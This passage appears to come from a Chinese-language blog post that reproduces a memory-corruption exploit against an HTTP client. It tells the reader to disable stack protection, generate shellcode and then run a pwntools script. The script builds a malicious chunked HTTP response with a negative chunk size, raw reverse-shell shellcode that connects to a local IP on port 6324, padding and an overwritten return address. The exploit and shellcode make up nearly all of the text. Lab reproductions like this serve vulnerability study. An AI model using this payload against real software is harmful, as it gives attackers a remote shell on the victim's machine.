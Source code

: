 

## 利用



需要先关闭栈保护，然后重新编译。


![upload successful](/images/pasted-280.png)


生成shellcode，ifconfig查看ip，-f c表示是C语言格式的

![upload successful](/images/pasted-281.png)

payload如下：

```python
from pwn import *

payload = """HTTP/1.1 401 Not Authorized
Content-Type: text/plain; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive

-0xFFFFF000
"""
port = p64(6324).replace('\x00','')[::-1]
sc = "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48\xb9\x02\x00\x18\xb4\xc0\xa8\x70\x02\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"

payload += sc + (568-len(sc))*'A'
#payload += "\xd0\xd8\xff\xff\xff\x7f\x00\x00"
payload += p64(0x7fffffffd140)
payload += "\n0\n"

with open('exp1','wb') as f:
        f.write(payload)

```
